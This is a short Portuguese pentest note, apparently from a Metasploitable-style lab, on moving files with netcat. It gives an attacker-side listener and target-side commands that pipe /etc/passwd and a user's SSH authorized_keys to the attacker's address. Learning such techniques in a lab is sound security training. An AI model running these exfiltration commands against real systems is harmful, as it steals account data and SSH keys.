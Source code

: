 ====Transferindo arquivos via NETCAT:

ATACANTE-No lado servidor, ou seja, o lado que receberá o arquivo execute:
$ nc -lvnp 8080 > passwd.txt 
OBS:para encerrar a captura, interrompa o processo na máquina atacante.

ALVO-No lado do cliente, ou seja o lado que enviará o arquivo, execute:
$ cat /etc/passwd | nc -vn 192.168.80.163 8080

OBS: pode copiar as chave ssh de uma máquina (dentro do usuário .ssh)
#cd /home/msfadmin/
#ls -a (lsta ocultos)
#cat authorized_keys | nc -vn 192.168.80.163 8080
